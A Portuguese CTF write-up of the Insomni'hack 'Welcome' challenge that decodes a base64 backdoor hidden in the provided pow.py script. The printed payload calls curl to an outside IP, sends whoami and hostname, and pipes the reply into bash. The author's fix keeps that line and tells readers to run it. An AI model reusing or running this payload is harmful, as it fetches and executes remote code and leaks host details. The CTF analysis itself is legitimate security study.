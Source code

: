 # Welcome

Essa foi a Chall inicial do CTF que, apesar de ser um pouco mais complexas que as demais "Welcome's", vamos ver que não tem nada de complicado.

Primeiro vamos ver o anúncio da Chall
![description](description.png)

Então aqui, temos um arquivo (pow) para baixar e um alvo que podemos acessar via Netcat (nc welcome.insomnihack.ch 1337).

Primeiro vamos executar o comando no terminal e vermos a saida
```bash
nc welcome.insomnihack.ch 1337
```
![netcat](netcat.png)

O script está nos pedindo um hash MD5 em que a inicial seja `92cea2` (esse valor á alterado a cada vez que executamos o script).

Bom, vamos então fazer um code review no arquivo que foi disponibilizado.

![pow.py](pow.py.png)

Vendo rapidamente o código, podemos notar que esse script em python está gerando hashes em números sequenciais, até achar um número que tenha a inicial como esperamos. Vamos então executar esse script passando como parâmentro, a inicial que nos foi passada (92cea2).
```bash
python pow.py 92cea2
```
Depois de esperar por alguns poucos minutos, o script conseguiu me retornar o hash de algum número que, em MD5 tenha a mesma inicial que esperamos. Então vamos inserir o valor e... Ops, algo deu errado! Mal deram um start no ano de 2020 e já estou no "Wall of Shame". É um belo jeito de começar o ano não?

![shame](shame.png)

Precisamos fazer um code review mais detalhado para acharmos essa solução. O único ponto realmente estranho nesse código, sem dúvidas é esse base64 na linha 18. Vamos verificar o seu conteúdo com o comando:
```bash
echo 'Z2xvYmFsIGk7aSs9MTMzNzt4PW9zLm5hbWU7eCs9Ii8kKHdob2FtaSlAJChob3N0bmFtZSl8YmFzaCJpZiB4IT0ibnQiZWxzZSIvJVVTRVJOQU1FJUAlVVNFUkRPTUFJTiUiO29zLnN5c3RlbSgiY3VybCAtTnMgMzQuNjUuMTg3LjE0MS8iK3gp' | base64 -d
```

![base64_decode](base64_decode.png)

Vamos pensar juntos... O retorno do número que nos dará uma hash válida, está na variável `i`, porém o base64 irá incrementar o valor de `1337` no valor de  `i`. Essa valor (1337) foi adicionado somente como uma forma de enganar "olhos desatentos", já que é o mesmo número da porta que estamos acessando o host.

Realizar uma alteração nesse script é fácil, iremos executar o seguinte comando para remover o `i+=1337` e converter em base64:
```bash
echo -n 'global i;x=os.name;x+="/$(whoami)@$(hostname)|bash"if x!="nt"else"/%USERNAME%@%USERDOMAIN%";os.system("curl -Ns 34.65.187.141/"+x)' | base64
```

![fix_base64](fix_base64.png)

---
**ATENÇÃO.:** A saída do base64 está quebrado em algumas linhas, porém o seu valor original deve ficar somente em uma única linha e sem espaços. 

---

Agora que temos nosso base64 correto, vamos editar o arquivo `pow.py` na linha `18` e substituí-lo pelo encode correto.

Feito isso, vamos executar novamente o comando `nc welcome.insomnihack.ch 1337` e em outro terminal, executar o arquivo `pow.py`.

![flag](flag.png)

Bazinga! Capturamos nossa Flag.
Espero poder ter te ajudado em algo!

Abs...
